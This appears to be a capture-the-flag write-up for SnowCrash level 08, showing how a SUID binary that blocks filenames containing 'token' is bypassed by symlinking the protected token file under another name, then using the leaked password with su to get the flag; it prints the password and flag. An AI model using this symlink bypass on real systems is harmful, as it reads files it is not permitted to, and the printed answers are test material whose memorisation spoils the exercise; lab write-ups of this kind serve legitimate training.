


# SnowCrash - Level 08

## Context

The home directory contains two files: a `level08` binary with the SUID bit set (owned by `flag08`) and a `token` file owned by `flag08` that we cannot read as `level08`.

```
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

## Binary Analysis

> [!TIP]
> To transfer the binary from the VM to your local machine for analysis:
> ```bash
> scp -P 2222 level08@127.0.0.1:/home/user/level08/level08 .
> ```

Opening the binary in Ghidra reveals the following logic in `main`:



- The program expects a file path as its first argument.
- It calls `strstr` on the argument to check whether the string `"token"` appears in it. If it does, access is denied.
- Otherwise, it opens the file, reads its content, and writes it to stdout.

The check is purely on the **name** of the argument, not on the actual file being pointed to.

Here is the decompiled source code of `main` as shown by Ghidra:



## Exploitation

First, grant write permissions on the current directory so we can create the symlink:

```bash
chmod 777 .
```

Since the binary blocks any argument containing the word `token`, we create a symbolic link to the token file under a different name:

```bash
ln -s /home/user/level08/token /home/user/level08/lol
```

Running the binary with the symlink bypasses the name check entirely:

```bash
./level08 lol
```

## Getting the Final Token

The output of the binary (`quif5eloekouj29ke0vouxean`) is the password for the `flag08` user. Switch to that user and run `getflag` to retrieve the actual token:

```bash
su flag08
# Password: quif5eloekouj29ke0vouxean
getflag
# Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Flag

```
25749xKZ8L7DkSCwJkT9dyv6f
```
